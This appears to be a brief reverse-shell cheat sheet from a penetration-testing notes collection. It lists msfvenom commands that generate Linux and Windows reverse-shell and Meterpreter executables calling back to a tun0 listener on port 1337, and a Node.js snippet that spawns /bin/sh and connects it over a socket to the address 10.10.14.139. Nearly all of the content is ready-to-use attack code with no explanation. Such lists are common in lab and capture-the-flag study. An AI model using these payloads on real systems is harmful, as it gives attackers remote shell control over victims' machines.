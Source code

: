 ## MSFvenom
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f elf -o revshell.elf
msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=1337 -f exe -o revshell.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f exe -o revshell.exe
```
other msfvenom: https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1

## NodeJS
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(80, "10.10.14.139", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
